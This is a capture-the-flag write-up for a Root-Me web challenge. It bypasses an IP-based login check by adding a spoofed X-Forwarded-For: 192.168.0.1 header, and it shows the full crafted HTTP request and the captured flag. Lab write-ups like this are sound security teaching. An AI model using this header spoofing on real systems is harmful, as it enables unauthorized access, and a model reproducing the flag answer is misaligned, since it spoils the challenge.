 ```yaml
---
custom_edit_url: null
sidebar_position: 2
---
```


> Dear colleagues,
> We’re now managing connections to the intranet using private IP addresses, so it’s no longer necessary to login with a username / password when you are already connected to the internal company network.
> Regards,
> The network admin

![1](https://github.com/Knign/Write-ups/assets/110326359/f062cc6a-5da5-4ea4-9c8e-1d2322eaa2d2)

Let's intercept this request in Burpsuite.

![2](https://github.com/Knign/Write-ups/assets/110326359/bcc2159c-e705-443c-8c0f-97195a665096)

Next, we can send this request to the `Repeater`.

## X-Forwarded-For
```
X-Forwarded-For: <client>, <proxy1>, <proxy2>
```
It is a de-facto standard header for identifying the originating IP address of a client connecting to a web server through a proxy server.

We can add this header and set it's value to `192.168.0.1` as the origin should be connected to the internal company network.
## HTTP Request
```
POST /web-serveur/ch68/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
X-Forwarded-For: 192.168.0.1
Accept: 
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challenge01.root-me.org/web-serveur/ch68/
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Origin: http://challenge01.root-me.org
DNT: 1
Connection: close
Cookie: _ga_SRYSKX09J7=GS1.1.1697290591.1.1.1697292257.0.0.0; _ga=GA1.1.1863804672.1697290591
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
For the final step we have to send this request to the server.

![3](https://github.com/Knign/Write-ups/assets/110326359/ce4586b6-7236-4f0e-b82a-b452253f3230)

## Flag
```
Ip_$po0Fing
```
